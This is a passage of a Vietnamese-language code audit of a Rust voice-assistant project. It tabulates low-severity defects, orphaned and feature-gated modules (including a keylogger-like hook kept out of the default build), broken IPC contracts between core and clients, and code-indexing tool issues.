**M9 — I/O chặn.** `lib.rs` có 9 lần `std::fs::` (đọc/ghi config, quét thư mục model) gọi trực tiếp trong hàm `async` mà không `spawn_blocking` — ví dụ `lib.rs:354` `std::fs::read_to_string` trong `get_config`, `lib.rs:414` `std::fs::write` trong `update_config`. Trên ổ chậm/AV scan, chặn worker Tokio. Mức độ nhẹ nhưng dễ sửa.

---

## 4. LOW

| # | Vấn đề | Bằng chứng | Hệ quả | Đề xuất |
|---|---|---|---|---|
| **L1** | MCP `resolve_path` không canonicalize | `mcp/server.rs:66-77` — chặn `is_absolute`/`has_root`/`ParentDir` nhưng **không** resolve symlink | Symlink đặt sẵn trong vault có thể trỏ ra ngoài | Thêm `canonicalize()` rồi `starts_with(vault_canonical)` |
| **L2** | `PhonemeDict` không bounds-check offset sau header | `tts/vieneu/g2p.rs:34-50` — chỉ guard `data.len() < 32`; `string_offsets_pos`/`merged_pos`/`common_pos` đọc từ file rồi dùng làm chỉ số | `sea_g2p.bin` (50 MB) hỏng/cụt → panic thay vì lỗi có kiểm soát | Kiểm mọi offset `< data.len()` ngay sau khi parse header |
| **L3** | FK khai báo nhưng không thực thi | `db.rs:329-345` khai FK `l3_edges → l3_nodes`; **không có `PRAGMA foreign_keys = ON`** ở bất kỳ đâu (`db.rs:30-48`) | Ràng buộc là trang trí | Bật pragma hoặc bỏ khai báo cho khỏi hiểu lầm |
| **L4** | `PRAGMA page_size=32768` đặt sau khi DB đã tồn tại | `db.rs:34` | Vô hiệu với mọi DB cũ (chỉ có tác dụng trước lần ghi đầu hoặc sau `VACUUM`) | Đặt lúc tạo DB, hoặc bỏ |
| **L5** ⬇️ **THU HẸP 22/07/2026** | Code chết cần dọn | Còn đúng **một** khoản: opcode `OP_ACK_PLAYING` (`webrtc/frame.rs:10`) không ai gửi/nhận, server rơi vào `_ => {}`. *Đã dọn xong:* `prng.rs`, `webrtc/signaling.rs`, `WebRTCPipelineHandle::feed_rtp_pcm` và crate `webrtc = "0.12.0"` bị **xoá** ở commit `510c9e2` (mục 3.1); `passive/`, `evolution/`, `agent/dispatcher.rs` được **feature-gate** ở commit `4c08f18` (mục 3.2) nên không còn nằm trong build mặc định | Lợi ích "giảm thời gian build" đã thu về (gỡ crate `webrtc` kéo theo 45 crate khỏi cây phụ thuộc). Phần còn lại chỉ là opcode chết gây hiểu lầm khi đọc bảng giao thức | Bỏ `OP_ACK_PLAYING` khỏi `frame.rs` **hoặc** hiện thực hoá nó (client báo "đã phát xong") — chọn một, đừng để lơ lửng |
| **L6** | Thư mục/file rác | `liva-computer-use/` **rỗng và không track** (0 file); `tests/` ở gốc (`audit_profiler.ts`, `e2e-stress.js`, `memory_stress_benchmark.ts`, `websocket_stress_test.py`) không có npm script nào trỏ tới; `liva-native-core/target/` là leftover tiền-workspace; `logs/`, `release/`, `static/` không có file nào track | Nhiễu khi khảo sát, tăng kích thước checkout | Xoá `liva-computer-use/`; đưa `tests/*` vào script hoặc archive |
| **L7** | 3 binary thiếu `test = false` | `Cargo.toml:71-139` khai 14 `[[bin]]` với `test = false`; `debug_audio`, `verify_integrations`, `verify_voice` bị auto-discover | `cargo test` biên dịch + chạy chúng như test target rỗng, tốn thời gian CI | Thêm `[[bin]]` với `test = false` |
| ~~**L8**~~ ✅ **ĐÃ SỬA** | Binary verify nhúng lại module bằng `#[path]` | Kiểm lại 22/07/2026: `grep -rn '#\[path' liva-native-core/src/bin/*.rs` → **0 hit**. Ví dụ `src/bin/verify_round2.rs:8-10` nay là ba dòng `use liva_native_core::stt::SttManager;` / `use liva_native_core::tts::TtsManager;` / `use liva_native_core::tts::audio::TtsAudioPlayer;` | Không còn bản sao thứ hai của `crypto/db/stt/tts` ⇒ số đo của các binary verify khớp với bản trong lib | — (đã chuyển sang `use liva_native_core::...`) |
| **L9** | Test có assertion vô nghĩa + gọi mạng thật trong CI | `tests/verify_commands.rs:83-87` set `TELEGRAM_BOT_TOKEN` giả rồi assert `success: true`, nhưng handler `lib.rs:1467-1472` là `tokio::spawn` fire-and-forget luôn trả `success` | CI phát sinh request thật ra `api.telegram.org`; test không kiểm chứng gì | Inject client giả hoặc bỏ assertion |
| **L10** | `self_correction_stress.rs` phụ thuộc `tasklist` (Windows-only) | `tests/self_correction_stress.rs:67-75` | Không portable; CI chỉ chạy `windows-latest` nên không bao giờ phát hiện | Feature-gate `#[cfg(windows)]` |
| **L11** | `.env.example` lệch code ở ≥6 chỗ | `LIVA_WAKE_THRESHOLD` code `0.68` (`wake.rs:92-95`) vs doc `0.77`; `LIVA_LLM_MODEL_DIR` không được đọc ở runtime; 5 biến `LIVA_VIENEU_*` thiếu hoàn toàn; mục `ZALO_*`/`EMAIL_*`/`REMOTE_CONTROL_ENABLED` không có reader Rust nào | Người dùng beta cấu hình theo tài liệu sẽ không có tác dụng | Sinh `.env.example` tự động từ code, hoặc thêm test đối chiếu |
| ~~**L12**~~ **ĐÃ XỬ LÝ 21/07/2026** | Chỉ mục GitNexus bị ô nhiễm 22,6% | 1.488/6.582 node từ 2 bundle JS minified (`liva-ui/public/assets/wasm/vision_wasm_internal.js` 821 symbol; `mobile_client/android/.../index-CcKnaVz4.js` 667 symbol); 276/300 process là rác; 2 hub giả `spawn`/`sleep` do trùng tên với `tokio::spawn`/`tokio::time::sleep`; **toàn bộ `src/bin/` bị bỏ qua** (17 file) | Kết quả `impact`/`context` không tin cậy được ở các vùng bị ảnh hưởng | **Đã thêm [`.gitnexusignore`](../../.gitnexusignore) ở gốc repo** (GitNexus chỉ đọc file ignore ở gốc — đó là lý do `.gitignore` lồng trong `mobile_client/android/` không có tác dụng với việc index). Sau khi chạy lại `analyze --force`: 6.582 → **5.871 node**, 13.220 → **10.800 cạnh**, 313 → **229 cluster**; 2 bundle đã biến mất khỏi chỉ mục; **17/17 file `src/bin/` đã được index** nhờ mẫu phủ định `!liva-native-core/src/bin/**` (GitNexus có `'bin'` trong `DEFAULT_IGNORE_LIST` vì coi là build output — sai với quy ước Cargo). Sau đó chạy tiếp `analyze --force --pdg --embeddings` (124,7s): dựng được tầng PDG **16.630 node `BasicBlock`** và +39.094 cạnh CFG (5.871 → **22.501 node**, 10.800 → **49.894 cạnh**); sinh **3.847 embedding**, `vectorSearch` chuyển từ `unavailable` → `exact-scan` (3.847 < ngưỡng 10.000 nên dùng được). Kiểm chứng bằng cypher: 16.630 `BasicBlock`, 3.847 node có `embedding`, **44 hàm trong `src/bin`** truy vấn được (trước là 0). **Còn tồn:** (a) `processes` vẫn đúng 300 qua **cả ba** cấu hình index rất khác nhau ⇒ gần như chắc chắn là trần cứng, không phải số đo; (b) LadybugDB VECTOR bị tắt trên nền tảng này nên semantic search chạy bằng exact-scan — bật index vector thật cần `GITNEXUS_LBUG_EXTENSION_INSTALL=auto` (cần mạng); (c) **model embedding thiên về tiếng Anh**: truy vấn `"acoustic echo cancellation and noise suppression"` trả đúng `Denoiser_preserves_length…` / `Handle_vad_end`, còn `"khử tiếng vọng và lọc nhiễu cho micro"` trả kết quả lạc — nên đặt câu hỏi bằng tiếng Anh khi dùng `query`. **⚠️ BẪY VẬN HÀNH:** chạy `analyze` mà **thiếu `--pdg`** sẽ **xoá sạch tầng PDG** (đã bị dính: 22.501 → 5.871 node) — kể cả lệnh mà hook post-commit gợi ý (`analyze --embeddings`). Gợi ý của chính công cụ là đặt `pdg: true` trong `.gitnexusrc` **KHÔNG dùng được**: `pdg` xuất hiện 0 lần trong `analyze-config.js` và rc này fail-closed với khoá lạ. Vì vậy lệnh đúng đã được đóng gói thành `npm run gitnexus:index` — luôn dùng lệnh này, đừng gõ `analyze` tay. **⚠️ GHIM PHIÊN BẢN:** `gitnexus` bị ghim đúng **1.6.8** (`--save-exact`), không dùng `^`. Lý do: (a) 1.6.7 **chưa có** cờ `--pdg`, mà `run.cjs` lại chọn bản trên PATH — dưới `npm run` thì PATH có `node_modules/.bin` nên nó lấy bản local, chạy tay thì rơi về bản global; cùng một lệnh cho hai kết quả khác nhau. (b) 1.6.9 **hỏng**: nâng schema v4→v5 rồi crash giữa chừng ở khâu ghi embedding — `Found duplicated primary key ... liva-native-core/src/mcp/protocol.rs:JsonRpcResponse:0`. Trước khi nới ghim, phải chạy thử `npm run gitnexus:index` và xác nhận nó chạy hết |

L11 chỉ nêu **mức độ rủi ro**; bảng đối chiếu từng biến lệch (biến chết trong `.env.example`, biến có trong code mà tài liệu thiếu, ngưỡng lệch) nằm ở tài liệu cấu hình.

> 📌 Nguồn đầy đủ: [Cấu hình và biến môi trường](../02-van-hanh/01-cau-hinh-va-bien-moi-truong.md)

---

## 5. Code mồ côi (orphan / chưa nối dây)

### 5.0 Nguyên nhân gốc (lịch sử): cảnh báo dead-code từng bị tắt ở cấp crate

Bản kiểm kê này ra đời khi `liva-native-core/src/lib.rs:1` còn dòng:

```rust
#![allow(dead_code, unused_imports, unused_variables)]
```

Đó là lý do toàn bộ code mồ côi bên dưới **compile sạch, không một warning nào** — công cụ không giúp gì, mọi thứ dưới đây phải tìm bằng grep tay.

**Trạng thái hiện tại:** attribute ở `lib.rs` đã được gỡ (commit `02773d9`, mục 3.4); `lib.rs:1` nay là `pub mod crypto;`. Còn sót `#![allow(dead_code)]` ở `main.rs:1` và ở các module cũ chưa dọn: `stt/dsp.rs:1`, `stt/mod.rs:1`, `stt/parakeet.rs:1`, `stt/tokenizer.rs:1`, `tts/audio.rs:1`, `tts/engine.rs:1`, `tts/tokenizer.rs:1` — tức là warning dead-code **vẫn im lặng trong `stt/*`, `tts/*` và toàn bộ `main.rs`**.



### 5.1 Bảng nối dây theo module

Ký hiệu: **ĐÃ NỐI [OK]** = có call-site trong `src/` ngoài test/bin · **OPT-IN [MỘT PHẦN]** = có call-site nhưng bị env-flag chặn mặc định · **MỒ CÔI [THIẾU]** = 0 call-site production · **FEATURE-GATE** = nằm sau `#[cfg(feature = "experimental")]`, không được biên dịch vào build mặc định (từ 22/07/2026).

| Module (`src/…`) | Được gọi từ đâu | Trạng thái | Bằng chứng |
|---|---|---|---|
| `crypto` | `main.rs:242`, `db.rs:3` (set_fact/get_fact) | **[OK]** ĐÃ NỐI | `lib.rs:22` re-export |
| `db` | `lib.rs` (nhiều arm), `agent/memory.rs`, `telegram.rs:145` | **[OK]** ĐÃ NỐI (một phần bảng chết, xem §5.5) | |
| `llm` | `main.rs:136`, `lib.rs`, `agent/graph.rs` | **[OK]** ĐÃ NỐI | |
| ~~`prng`~~ | — | **ĐÃ XOÁ 22/07/2026** | File `src/prng.rs` bị xoá ở commit `510c9e2` (mục 3.1); `ls src/prng.rs` → không tồn tại |
| `stt` | `main.rs:113`, `pipeline.rs:190`, `telegram.rs:362` | **[OK]** ĐÃ NỐI | |
| `stt::parakeet` | `stt/mod.rs:49` gated | **[MỘT PHẦN]** OPT-IN (`LIVA_STT_VI_ENGINE=parakeet`, mặc định `false`) | `stt/mod.rs:49-51` `.unwrap_or(false)` |
| `tts` | `main.rs:117-125`, `pipeline.rs`, `lib.rs` | **[OK]** ĐÃ NỐI | |
| `tts::vieneu` | `tts/mod.rs:157` gated | **[MỘT PHẦN]** OPT-IN (`LIVA_TTS_VIENEU`, mặc định `false`) | `tts/mod.rs:157-161` |
| `tts::style_vector` | Chỉ `TtsManager::from_wav` (`tts/mod.rs:318`) — mà `from_wav` **0 caller** | **[THIẾU]** MỒ CÔI (dây chuyền) | `from_wav` tại `tts/mod.rs:305`, grep toàn repo 0 caller kể cả bin/test |
| `webrtc::frame` | `main.rs:501,570`, `pipeline.rs:382,454` | **[OK]** ĐÃ NỐI | |
| `webrtc::vad` | `main.rs:152-164, 627` | **[OK]** ĐÃ NỐI (bật nếu có model) | |
| `webrtc::denoise` | `main.rs:181-209, 617` | **[OK]** ĐÃ NỐI (opt-out `LIVA_DENOISE_ENABLED=0`) | |
| `webrtc::aec` | `main.rs:234-238`; `pipeline.rs:367` | **[MỘT PHẦN]** OPT-IN (`LIVA_AEC_ENABLED`, mặc định `false`) | `main.rs:234` `env_flag("LIVA_AEC_ENABLED", false)` — từ 21/07/2026 nhận `1/true/yes/on`, không còn so cứng `Ok("1")` |
| `webrtc::turn_shadow` | `main.rs:214-230, 676-688` | **[MỘT PHẦN]** OPT-IN + **shadow** (chỉ log, không gate gì) | `main.rs:214` |
| `webrtc::pipeline` | `boot::spawn_background_services` — **cả hai vỏ** | **[OK]** — cập nhật 26/07/2026 | Bản trước ghi *"chỉ binary standalone; Tauri hard-code `vad/denoiser/turn_shadow/aec = None`"*. **Sai**: `boot::build_app_state` gọi `VoiceRuntimeComponents::from_env` và nạp cả bốn field cho mọi vỏ, còn máy chủ WebSocket được spawn ở mục 4 của `spawn_background_services`. VAD và denoise **mặc định BẬT** (`LIVA_VAD_ENABLED`/`LIVA_DENOISE_ENABLED` default `true`); turn-shadow và AEC vẫn opt-in (default `false`). Xem M4 |
| ~~`webrtc::signaling`~~ | — | **ĐÃ XOÁ 22/07/2026** | File `src/webrtc/signaling.rs` bị xoá ở commit `510c9e2` (mục 3.1) — lý do phụ: nó `bind("0.0.0.0")`. `src/webrtc/mod.rs` nay chỉ còn 6 module (`frame`, `vad`, `denoise`, `turn_shadow`, `aec`, `pipeline`) |
| `integrations::smart_home` | `build_pipeline_graph` (`agent/graph.rs`), `handle_command` (`integration:smart_home_control`, `integrations:list`), **và** tool MCP `control_smarthome` (`mcp/server.rs`) | **[MỘT PHẦN]** ĐÃ NỐI ở ba đường; `execute` chưa có I/O phần cứng nhưng **báo trung thực**, có test ép | Ba đường vào nay đi qua **cùng một** `execute` nên cho cùng một câu trả lời (`45e2e58`); kiểm lại 26/07/2026 |
| `integrations::os_control` | **Chỉ một đường**: tool MCP `control_volume` / `control_media` (`mcp/server.rs`), tới được qua `mcp:call_tool` và qua vòng tool-calling. Nằm trong `NATIVE_AUTOEXEC` | **[MỘT PHẦN]** — chạy thật (U19, `6b5b87b`), nhưng **chỉ Windows** và **không** có mặt trong `integrations:list` | Tích hợp **đầu tiên chạm được vào máy thật**. Ngoài Windows trả lỗi thẳng, không im lặng no-op. Nghiệm thu **toàn tuyến 14/14** (10 câu OS: 10/10), hồi quy G1 13/13. Nhưng đường **LLM đơn thuần chỉ 9/10** — 10/10 đạt được nhờ `route_intent` chặn câu đa nghĩa trước, **không phải model khá lên**. Xem thêm M10 |
| `telegram` | `main.rs:333` | **[MỘT PHẦN]** OPT-IN (`TELEGRAM_BOT_TOKEN` phải có) + **vòng lặp không khép kín** (§5.4) | |
| `mcp::server` | `main.rs:171` + `lib.rs:44` (nhét vào `AppState`), **và nay có arm IPC**: `lib.rs:1575` `"mcp:list_tools"`, `lib.rs:1578-1593` `"mcp:call_tool"` | **[OK]** ĐÃ NỐI ở tầng IPC (từ mục 2.7) — nhưng chưa client nào gọi hai lệnh này | `list_tools()`/`call_tool()` (`mcp/server.rs:39,79`) có caller production; kiểm lại 22/07/2026 |
| `mcp::client` | `handle_command`: `mcp_client:list_servers`, `mcp_client:list_tools`, `mcp_client:call_tool` | **[OK]** — **KHÔNG còn mồ côi từ 26/07/2026** | Viết lại thành **MCP client stdio thật** (G0, `8e7511f` + `4f5e326`, ~1 035 dòng). Có e2e với server `npx` thật: `tests/mcp_client_e2e.rs` (`ba_lenh_mcp_client_da_noi_vao_dispatch`, `vong_doi_mcp_server_ngoai`) — 4/4 đạt ngày 26/07/2026. Bản trước ghi 49 dòng mồ côi; đã lỗi thời |
| `mcp::protocol` | `Tool/ToolList/CallToolRequest/CallToolResult/ToolContent` dùng bởi `server.rs`; **`JsonRpcRequest/JsonRpcResponse/JsonRpcNotification/JsonRpcError` = 0 tham chiếu toàn repo** | **[THIẾU]** MỒ CÔI (một nửa file) | grep 4 tên struct này ngoài `protocol.rs` → rỗng |
| `agent::state` | `pipeline.rs:259` | **[OK]** ĐÃ NỐI | |
| `agent::graph` | `pipeline.rs:271` | **[OK]** ĐÃ NỐI (chỉ đường voice, không phải `chat:completion`) | |
| `agent::memory` | `pipeline.rs:247` | **[MỘT PHẦN]** ĐÃ NỐI nhưng vô nghĩa (thread_id đổi mỗi lượt) | |
| `agent::dispatcher` (swarm) | **KHÔNG AI GỌI trong `src/`** | **[THIẾU]** MỒ CÔI + **FEATURE-GATE 22/07/2026** | `agent/mod.rs:4` `#[cfg(feature = "experimental")]` / `:5` `pub mod dispatcher;` ⇒ ngoài build mặc định. Tham chiếu còn lại chỉ trong test, cũng bị gate: `tests/integration_tests.rs:331` (`#[cfg(feature = "experimental")]` trên `test_case_6`, import ở `:336`) + `tests/swarm_stress_tests.rs:5` (`#![cfg(...)]` cả file, import ở `:11`) |
| `evolution` (`SelfCorrectionLoop`, `Sandbox`) | **KHÔNG AI GỌI trong `src/`** | **[THIẾU]** MỒ CÔI + **FEATURE-GATE 22/07/2026** | `lib.rs:14` `#[cfg(feature = "experimental")]` / `lib.rs:15` `pub mod evolution;` là hit duy nhất trong `src/`; chỉ `tests/sandbox_stress.rs:9`, `tests/self_correction_stress.rs:12` (cả hai file bị `#![cfg(...)]` ở dòng 5). **Không có impl `CodeAgent` nào ngoài mock** — `grep "impl CodeAgent"` → `evolution/mod.rs:206` (MockCodeAgent trong `#[cfg(test)]`), `tests/sandbox_stress.rs:172`, `tests/self_correction_stress.rs:57`. Tức là trait `CodeAgent` (`evolution/mod.rs:6-12`) **không có bất kỳ hiện thực nào nối vào LLM** |
| `passive::hook` + `passive::buffer` | **KHÔNG AI GỌI** | **[THIẾU]** MỒ CÔI HOÀN TOÀN + **FEATURE-GATE 22/07/2026** | `lib.rs:13 pub mod passive;` (kèm `lib.rs:12` `#[cfg(feature = "experimental")]`) là tham chiếu duy nhất trong toàn repo ⇒ ngoài build mặc định. `start_os_hook` (`passive/hook.rs:216`) / `stop_os_hook` (`:265`): **0 tham chiếu, kể cả test/bin**. `ActiveSessionBuffer::add_event` (`buffer.rs:49`) chỉ có ref trong `#[cfg(test)]` cùng file (`buffer.rs:131`). Đây là module được ưu tiên gate vì nó là **keylogger đầy đủ chức năng** — không nên nằm trong binary giao cho người dùng khi chưa có cổng đồng ý |
| `vision::capture` | `main.rs:170,855`, `lib.rs:249,1424`, `agent/graph.rs:240` | **[OK]** ĐÃ NỐI | |
| `vision::diff::DiffEngine` | `lib.rs:317` | **[MỘT PHẦN]** ĐÃ NỐI nhưng lệnh không client nào gọi (§5.4) | |
| `vision::diff::find_changes*` | **chỉ `bin/screen_vision_bench.rs:3`** | **[THIẾU]** MỒ CÔI trong runtime | `find_changes_u32` (`diff.rs:216`) 0 caller production |
| `vision::VisionManager::{capture_screen, detect_changes, detect_changes_against_frame}` | **0 caller production** | **[THIẾU]** MỒ CÔI | `lib.rs:300-325` **chép lại nguyên logic inline** thay vì gọi `detect_changes_against_frame` (`vision/mod.rs:106`) ⇒ code trùng lặp 2 bản |
| `governor` | `main.rs:143,298`, `vision/capture.rs:132`, Tauri `lib.rs:452` | **[OK]** ĐÃ NỐI — **nâng cấp 22/07/2026** | Trước `733ea1b` governor chỉ là **nhị phân "có/không có cửa sổ fullscreen ở foreground"** — dương tính giả với YouTube F11/PowerPoint/IDE toàn màn hình, âm tính giả với Blender render hay `cargo build` ở cửa sổ thường. Nay có nhánh thứ hai: **đọc tải CPU thật** qua `GetSystemTimes` (`governor.rs:141`), **đã trừ phần CPU của chính LIVA** qua `GetProcessTimes` (`governor.rs:149`) trong `external_cpu_percent` (`governor.rs:103`) — không trừ thì mỗi lần LLM sinh câu trả lời LIVA sẽ tự kết luận "máy bận" rồi tự hạ priority của chính mình. Ngưỡng `LIVA_BUSY_CPU_PERCENT` (`governor.rs:83`, mặc định **80**; đặt `0` để tắt hẳn nhánh CPU). **CÒN THIẾU: chưa đọc tải GPU/NVML** (`governor.rs:31` ghi rõ) — game vẫn phải dựa vào nhánh fullscreen |
| `wake` / `wake_model` | `main.rs:551` (`WakeGate::from_env`), chỉ trong WS handler | **[MỘT PHẦN]** OPT-IN (`LIVA_WAKE_MODE`, mặc định `WakeMode::Off` — `wake.rs:58-67` nhánh `_ =>`) | `wake_model::TrainedWakeDetector` chỉ được dựng khi mode = trained/hybrid (`wake.rs:85`) |

### 5.2 Module chết hẳn — kiểm đếm lại 22/07/2026

Đo lại sau khi mục 3.1 (`510c9e2`) **xoá** `prng.rs` + `webrtc/signaling.rs` và mục 3.2 (`4c08f18`) **feature-gate** ba module còn lại. Số dòng đo bằng `wc -l` trên cây làm việc hiện tại.

**Nhóm A — đã rời build mặc định (feature `experimental`), tổng 1.262 dòng:**

| File | Dòng |
|---|---|
| `src/passive/hook.rs` | 328 |
| `src/passive/buffer.rs` | 314 |
| `src/passive/mod.rs` | 5 |
| `src/evolution/mod.rs` | 295 |
| `src/evolution/sandbox.rs` | 133 |
| `src/agent/dispatcher.rs` | 187 |
| **Cộng** | **1.262** |

**Nhóm B — vẫn được biên dịch mặc định mà vẫn 0 call-site, tổng 114 dòng:**

| File | Dòng |
|---|---|
| `src/mcp/client.rs` | 49 |
| `src/mcp/protocol.rs` (phần `JsonRpc*`, dòng 4-68) | 65/106 |
| **Cộng** | **114** |

**Nhóm C — đã xoá hẳn ở mục 3.1:** `src/prng.rs`, `src/webrtc/signaling.rs`, `WebRTCPipelineHandle::feed_rtp_pcm`.

**Tổng còn lại: 1.376 dòng.** Mẫu số để tính tỉ lệ (đo lại cùng lúc): `liva-native-core/src/` có **76 file `.rs` / 21.238 dòng** (kể cả `src/bin/`), hoặc **18.687 dòng** nếu bỏ `src/bin/`. ⇒ **≈ 6,5% crate** (hoặc ≈ 7,4% nếu tính theo mẫu số không có `bin/`). Trong đó **1.262 dòng đã không còn đi vào binary giao cho người dùng**, phần thật sự còn nằm trong build mặc định chỉ là **114 dòng ≈ 0,5%**.

### 5.3 Hàm `pub` không có caller production

Quét tự động toàn `src/`, loại trừ `#[cfg(test)]`, `tests/`, `src/bin/` → **33 hàm**. Sau khi loại nhiễu test-helper (`test_update_state_machine`, `set_frame_data`, `set_fail_with` của `MockScreenCapturer`), phần đáng chú ý:

| Hàm | Vị trí | Ghi chú |
|---|---|---|
| `start_os_hook` / `stop_os_hook` | `passive/hook.rs:216,265` (+ stub non-windows `:293,:298`) | 0 ref kể cả test — **và từ 22/07/2026 không còn biên dịch mặc định** (feature `experimental`) |
| `ActiveSessionBuffer::{add_event, check_timeout, get_accumulated_text, …}` | `passive/buffer.rs:49,110,118,122,126` | chỉ `#[cfg(test)]` cùng file — **feature-gate** |
| `SelfCorrectionLoop::with_max_retries` | `evolution/mod.rs:100` | chỉ `tests/` — **feature-gate** |
| `AgentDispatcher::register_agent` | `agent/dispatcher.rs:37` | chỉ `tests/` — **feature-gate** |
| `StateGraph::add_edge` | `agent/graph.rs:40` | **`build_pipeline_graph` không gọi `add_edge` lấy một lần** (grep `add_edge` trong `graph.rs` = 1 hit duy nhất, chính là dòng định nghĩa) ⇒ field `edges` chỉ sống trong test |
| ~~`NativeMcpServer::list_tools`~~ | `mcp/server.rs:39` | **hết mồ côi** — `lib.rs:1575` (`mcp:list_tools`) |
| ~~`NativeMcpServer::call_tool`~~ | `mcp/server.rs:79` | **hết mồ côi** — `lib.rs:1593` (`mcp:call_tool`) |
| ~~`ProcessWrapper::{send_request, read_response}`~~ | — | **Hai hàm này KHÔNG CÒN TỒN TẠI** (26/07/2026, rung G0): `mcp/client.rs` đã được viết lại thành `McpStdioClient` + `McpClientRegistry`. Mọi toạ độ cũ trỏ tới chúng đều vô nghĩa |
| ~~`JsonRpcResponse::error`~~ | `mcp/protocol.rs:60` | **hết mồ côi** (26/07/2026) — `client.rs:645` dùng nó để trả lỗi cho mọi request đang chờ khi server đóng stdout. Và cả 4 kiểu `JsonRpc*` nay đều có ref ngoài `protocol.rs`: `JsonRpcRequest` (`client.rs:313`), `JsonRpcNotification` (`client.rs:350`), `JsonRpcError` (`client.rs:689`) |
| `VisionManager::{capture_screen, detect_changes}` | `vision/mod.rs:93,99` | logic bị chép lại inline ở `lib.rs:300-325` |
| `find_changes_u32` | `vision/diff.rs:216` | chỉ bench |
| `TtsManager::from_wav` | `tts/mod.rs:305` | kéo theo `style_vector::extract_style_vector` chết |
| `create_greedy_sampler` | `llm/sampler.rs:19` | re-export ở `llm/mod.rs:10`, 0 caller |
| `SttTokenizer::blank_id` | `stt/tokenizer.rs:87` | 0 ref |
| `VadEngine::is_speaking` | `webrtc/vad.rs:210` | 0 ref production |
| ~~`WebRTCPipelineHandle::feed_rtp_pcm`~~ · ~~`PseudoRng::*`~~ · ~~`SignalingServer::*`~~ | — | **đã xoá** ở mục 3.1 (`510c9e2`); `grep -rn "feed_rtp_pcm" src/ tests/` → 0 hit |

**Không phải code chết (đã kiểm tra để tránh báo oan):** `db::load_sqlite_vec` (`db.rs:63`) được gọi nội bộ tại `db.rs:26`; `search_similar_vectors`/`search_fts_vectors` được `search_hybrid_vectors` gọi (`db.rs:850-851`).

### 5.4 Đứt dây giữa core ↔ client

Tauri chỉ là passthrough thuần ở tầng lệnh: `native_ipc_call(command, payload)` → `handle_command(...)` (`liva-desktop/src-tauri/src/lib.rs#native_ipc_call`). Nên so khớp chuỗi lệnh giữa hai bên là kiểm tra hợp lệ. *(Từ 26/07/2026 tầng KHỞI ĐỘNG cũng dùng chung — `boot::build_app_state` — nên hai vỏ không chỉ giống nhau ở tập lệnh mà còn ở tập dịch vụ nền.)*

**(a) 22 sự kiện UI gửi mà core không có arm** ⇒ luôn nhận `Unknown command` (`lib.rs:1483`) — gồm gần như toàn bộ nhóm skill (`test_skill`, `toggle_skill`, `reload_skills`), nhóm huấn luyện giọng (`start/stop_voice_training`, `select_voice_profile`), nhóm bộ nhớ (`consolidate_memory`, `reset_memory`, `delete_memory_fact`) và nhóm avatar/env config. Đáng chú ý: `select_voice_profile` chết trong khi `get_voice_profiles` sống (`lib.rs:473-488`, chỉ `read_dir("data/voices")`) ⇒ **liệt kê được profile giọng nhưng không chọn được**.

> 📌 Nguồn đầy đủ (bảng 42 lệnh `handle_command` + danh sách đủ 22 sự kiện UI không có handler): [Giao thức IPC và WebSocket](../01-ban-ve/02-giao-thuc-ipc-va-websocket.md)

**(b) 14 lệnh core không client nào gọi.** Grep chuỗi lệnh trong `liva-ui/src` + `liva-desktop/src-tauri/src` = 0 hit:

```
vision:capture   vision:add_region   vision:remove_region
vision:get_changed_regions           vision:set_config
memory:get_fact  memory:upsert_vector llm:embed
telegram:send_text  integration:smart_home_control  integrations:list
llm:health_check  voice:set_language  chat:completion
```

UI chỉ dùng đúng 2 chuỗi có dấu hai chấm: `'vision:ask'` và `'vision:ask_response'` (grep `["'][a-z_]+:[a-z_]+["']` trên `liva-ui/src`). ⇒ **Toàn bộ API region-diff của `vision` (5 lệnh) + toàn bộ RAG lai không có người dùng.**

**(c) `mobile_client/` gọi 3 lệnh nhưng sai contract, luôn lỗi:**

| Call site | Payload gửi | Core yêu cầu | Kết quả |
|---|---|---|---|
| `mobile_client/src/components/MemoryTaskBoard.vue:323` `memory:search_hybrid` với `{ query }` | `query` | `payload["query_text"]` **và** `payload["query_vector"]` (mảng float) — `lib.rs:1025-1032` | `Err("Missing 'query_text'")` 100% |
| `mobile_client/src/components/MemoryTaskBoard.vue:310` `memory:set_fact` với `{ key, value }` | 2 field | `serde_json::from_value::<db::Fact>` — struct 13 field **không có `#[serde(default)]`** (`db.rs:360-374`: `createdAt`, `updatedAt`, `source`, `importance`, `confidenceScore`, `memory_strength`, `last_accessed_at`, `access_count`…) | `Err("Invalid fact payload: missing field createdAt")` |
| `mobile_client/src/App.vue:217` `voice:stt_stop` | — | `lib.rs:1205` | OK |

**(d) Telegram: 3 lệnh ghi ra stdout mà không ai đọc.** `telegram.rs:384` gửi `{"command":"telegram:message", …}`, `telegram.rs:124` gửi `{"command":"panic"}`, `telegram.rs:164-172` gửi `"voice:tts_stop"` — nhưng `ipc_tx` chính là kênh **ghi ra stdout** (`main.rs:317` → writer task `main.rs:344-356`). Không có vòng lặp back nào. Hơn nữa `handle_command` **không có arm `"telegram:message"`** (grep toàn repo: chỉ `telegram.rs:384`) và **không có arm `"panic"`**. ⇒ `/ask`, `/panic`, tin nhắn text Telegram: bot nhận, ghi 1 dòng JSON ra stdout, hết. Không tiến trình cha nào tồn tại (`scripts/start_all.ps1` không khởi động binary `liva-native-core`).

### 5.5 Bảng DB tạo ra nhưng không có writer

Quét `INSERT/UPDATE/DELETE/FROM` trên `src/` sau projection consumer: **6 bảng có `CREATE TABLE` nhưng 0 writer** — `turn_layer_nodes`, `vector_dlq`, `daily_briefings`, `personality_state`, `l3_nodes`, `l3_edges`. `consolidation_checkpoints` và `dlq_consolidation` nay được consumer ghi.

`get_memory_data` nay có thể trả `events`/`vectors`; phần L0 từ `turn_layer_nodes` và L3 vẫn rỗng. `/latest` còn phụ thuộc nguồn `turn_layer_nodes`, nên chưa được event-ledger sửa.

> 📌 Nguồn đầy đủ (ERD, 15 bảng, kiểm đếm writer/reader từng bảng): [Tầng dữ liệu và bảo mật](../01-ban-ve/07-tang-du-lieu-va-bao-mat.md)

### 5.6 Danh sách TODO / FIXME / `unimplemented!`

Grep `TODO|FIXME|unimplemented!|todo!()|XXX|HACK` trên toàn `src/` (`--include=*.rs`), kiểm lại 22/07/2026 — **0 hit**. Hai TODO của bản trước đã biến mất cùng code chứa chúng ở mục 3.1 (`510c9e2`):

| File:dòng (bản cũ) | Nội dung | Trạng thái |
|---|---|---|
| ~~`src/webrtc/pipeline.rs:73`~~ | `// TODO: Pass samples to VadEngine` — trong `feed_rtp_pcm`, thân hàm chỉ `Ok(())` | **đã xoá cùng hàm** |
| ~~`src/webrtc/signaling.rs:52`~~ | `// TODO: Pass to WebRTC PeerConnection and reply with Answer` | **đã xoá cùng file** |

